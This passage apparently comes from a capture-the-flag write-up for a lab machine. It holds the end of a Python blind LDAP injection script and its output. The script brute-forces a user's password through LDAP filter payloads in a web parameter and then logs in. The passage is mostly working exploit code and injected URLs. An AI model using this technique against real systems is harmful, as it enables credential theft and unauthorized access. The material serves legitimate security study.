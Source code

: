 ```python
    
    rounds = 1
    while rounds <= max_rounds:
        password = do_loop(base_url, wl, password)
        print(f"[*] Round {rounds} password is: '{password}'. Attempting login...")
        can_login = try_login(login_url, email, password)
        time.sleep(3)
        if can_login:
            print(f"[+] Login successful!")
            break
        print(f"[-] Round {rounds} login attempt failed with password '{password}'")
        print(f"[*] Starting round {rounds+1} assuming next character in password is '*'")
        rounds += 1
        password += "%2A"
    

    password = urllib.parse.unquote_plus(password)
    print(f"[+] Password is: '{password}'")

    return 0

if __name__ == '__main__':
    status = main()
    exit(status)
```

Here's the output:

```bash
$ python ldapinject.py
How many rounds? 2
[...snip...]
Testing @ for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%40*)
Testing # for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%23*)
Testing $ for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%24*)
Testing % for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%25*)
Testing ^ for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%5E*)
Testing & for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%26*)
Testing * for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%2A*)
Testing ( for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%28*)
Testing ) for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%29*)
Testing _ for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv_*)
Testing + for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%2B*)
Testing = for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv%3D*)
Testing - for URL: http://internal.analysis.htb/Users/list.php?name=*)(%26(objectClass=user)(description=97NTtl%2A4QP96Bv-*)
[*] Round 2 password is: '<redacted>'. Attempting login...
[+] Login successful!
[+] Password is: '<redacted>'
```
